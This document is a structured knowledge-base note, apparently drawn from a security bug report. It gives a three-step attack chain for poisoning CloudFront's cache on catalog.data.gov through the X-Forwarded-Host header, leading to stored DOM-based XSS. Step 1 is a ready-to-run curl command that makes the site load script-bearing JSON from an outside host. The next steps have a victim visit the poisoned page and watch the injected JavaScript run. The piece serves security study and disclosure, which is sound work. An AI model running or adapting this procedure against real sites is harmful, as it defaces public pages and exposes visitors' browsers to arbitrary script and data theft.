

---
tags:
  - cache-poisoning
  - xss
  - dom-xss
  - aws
  - cloudfront
type: attack_chain
tools:
  - '[[tools/curl]]'
  - '[[tools/Web-Browser]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/curl-poison-cloudfront-cache]]'
platforms:
  - Web
  - AWS
complexity: medium
procedures:
  - '[[procedures/Poison-CloudFront-Cache-with-Malicious-X-Forwarded-Host]]'
  - '[[procedures/Trigger-XSS-by-Visiting-Poisoned-Page]]'
  - '[[procedures/Observe-Injected-JavaScript-Execution]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
description: >-
  Exploits trust in X-Forwarded-Host header to poison CloudFront cache, enabling
  stored DOM-based XSS via unescaped JSON injection on catalog.data.gov.
skill_level: intermediate
impact_level: high
id: 123f91fa-288d-463d-9937-96be09455ddc
created_at: '2025-12-13T09:00:34.682Z'
updated_at: '2025-12-13T09:00:34.682Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Web Cache Poisoning via X-Forwarded-Host Leading to Stored DOM-based XSS on Catalog.Data.Gov

Multi-stage attack chain demonstrating how an attacker can exploit the server's trust in the X-Forwarded-Host header to poison the CloudFront cache, inject a malicious JSON fetch URL, and execute arbitrary JavaScript via a stored DOM-based XSS vulnerability on catalog.data.gov. This leads to page defacement and potential execution of malicious code in victims' browsers.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~2 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]
- [[tools/Web-Browser]]

### Target Environment

- Platform: Web, AWS
- Required services/ports: HTTPS access to catalog.data.gov, CloudFront CDN
- Network access requirements: Public internet access to the target URL

### Initial Access Requirements

- Credential requirements: None
- Network position: External attacker
- Prior access needed: None

## Detailed Attack Procedures

### Step 1: Poison the CloudFront Cache
procedure: [[procedures/Poison-CloudFront-Cache-with-Malicious-X-Forwarded-Host]]

**Objective**: Send a request with a malicious X-Forwarded-Host header to inject a harmful data-site-root value into the cached HTML response.

**Instructions**: Use [[commands/curl-poison-cloudfront-cache]] to send the poisoning request:

```bash
curl -i -s -k -X 'GET' -H 'Host: catalog.data.gov' -H 'Accept-Encoding: gzip, deflate' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)' -H 'x-forwarded-host: portswigger-labs.net/catalog.data.gov_json_xss/json.php?' -H 'Connection: close' 'https://catalog.data.gov/dataset/consumer-complaint-database?dontpoisoneveryone=6' > /dev/null
```

**Expected Output**: No visible output due to redirection to /dev/null, but the cache is poisoned with the malicious header reflected in HTML attributes.

**Success Indicators**:
- Cache poisoning confirmed by subsequent steps
- No errors in request execution

### Step 2: Visit the Poisoned Page
procedure: [[procedures/Trigger-XSS-by-Visiting-Poisoned-Page]]

**Objective**: Load the poisoned page in a web browser to trigger the JavaScript fetch of the malicious JSON and inject it into the DOM.

**Instructions**: Open a web browser and navigate to the poisoned URL: https://catalog.data.gov/dataset/consumer-complaint-database?dontpoisoneveryone=6. The client-side JavaScript will fetch the JSON from the attacker-controlled URL and insert it without escaping.

**Expected Output**: The page loads with injected content, including a 'show more' text that contains malicious HTML.

**Success Indicators**:
- Page loads without errors
- Malicious JSON is fetched and injected

### Step 3: Observe the Injected JavaScript Execution
procedure: [[procedures/Observe-Injected-JavaScript-Execution]]

**Objective**: Wait for the injected XSS payload to execute, demonstrating arbitrary JavaScript execution in the victim's browser.

**Instructions**: After loading the page, wait a few seconds to observe the execution of the injected payload, such as an alert popup showing the document domain.

**Expected Output**: A JavaScript alert popup appears with 'catalog.data.gov' or similar, confirming XSS execution.

**Success Indicators**:
- Alert popup triggered
- Arbitrary JavaScript executed in the context of catalog.data.gov

## Attack Chain Summary

### Key Achievements

1. Successful poisoning of CloudFront cache leading to persistent defacement
2. Injection of malicious JSON via reflected attributes
3. Execution of arbitrary JavaScript for potential data theft or further attacks

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

*Last updated: 2023-10-01*
